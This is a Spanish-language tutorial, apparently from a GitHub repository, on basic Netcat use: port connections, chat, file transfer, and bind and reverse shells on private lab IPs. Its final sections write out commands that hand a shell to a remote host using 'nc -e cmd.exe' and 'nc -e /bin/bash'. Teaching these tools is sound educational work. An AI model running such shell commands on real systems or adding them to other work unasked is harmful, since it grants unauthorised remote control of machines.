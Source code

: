 ```yaml
---
Title: Uso básico de Netcat
Authors: Barckcode
Date: 21/11/2020
Categories: Linux
---
```


# Uso básico de Netcat
Netcat es una herramienta de análisis de red que permite abrir puertos, transferir archivos, chatear, obtener una shell de un host remoto y muchas cosas mas.

**Después de esta rápida intro. Empecemos con el código!**

![programmer_gif](https://media.giphy.com/media/13HgwGsXF0aiGY/giphy.gif)

---
**🔹 Para conectarnos a un puerto de un host.**

- Ejemplo: Vamos a conectarnos al puerto 21 (FTP) de un host con IP: 192.168.0.100

```bash
nc -nv 192.168.0.100 21
```

---
**🔹 Para chatear desde dos hosts distintos a través de un puerto.**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts:

  - host1: 192.168.0.100
  
  - host2: 192.168.0.101

En **host1** ejecutamos:

 ```bash
nc -nvlp 4444
```

En **host2** ejecutamos:

 ```bash
nc -nv 192.168.0.100 4444
```

Desde este momento ambos equipos estarán conectados al puerto 4444 y todo lo que se escriba en uno será transmitido al otro.
La comunicación es bidireccional.

Para cortar la conexión. Basta con pulsar CTRL + C

---
**🔹 Para transferir archivos entre dos hosts a traves de un puerto.**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts:

  - host1: 192.168.0.100
  
  - host2: 192.168.0.101

Desde **host1** vamos a recibir un fichero. A través del puerto 4444. Para ello ejecutamos:

 ```bash
nc -nvlp 4444 > archivo_recibido.txt
```

En **host2** vamos a enviar el fichero por medio del mismo puerto. Para ello ejecutamos:

 ```bash
nc -nv 192.168.0.100 4444 < archivo_enviado.txt
```
---
**🔹 Bind Shell: conectarnos a la shell de un servidor por medio de un puerto**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts:

  - host1: 192.168.0.100  ->  En este caso usaremos un Windows.
  
  - host2: 192.168.0.101  ->  En este caso será un Linux.

Desde **host1** vamos a servir la shell. A través del puerto 4444. Para ello ejecutamos:

 ```bash
nc -nvlp 4444 -e cmd.exe
```

En **host2** vamos a conectarnos al puerto indicado para tomar el control de la shell. Para ello ejecutamos:

 ```bash
nc -nv 192.168.0.100 4444
```

En cuanto se ejecute lo anterior. Tendremos el control de la shell de **host1** (Windows). Desde **host2** (Linux).

---
**🔹 Reverse Shell: servir la shell de un servidor por medio de un puerto.**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts Linux:

  - host1: 192.168.0.100
  
  - host2: 192.168.0.101

Desde **host1** vamos a levantar el puerto 4444 para que este escuchando. Para ello ejecutamos:

 ```bash
nc -nvlp 4444
```

En **host2** vamos a servir una shell a través del puerto indicado. Para ello ejecutamos:

 ```bash
nc -nv 192.168.0.100 4444 -e /bin/bash
```

En cuanto se ejecute lo anterior. Desde **host1** podremos tener el control de la shell ofrecida por **host2**. 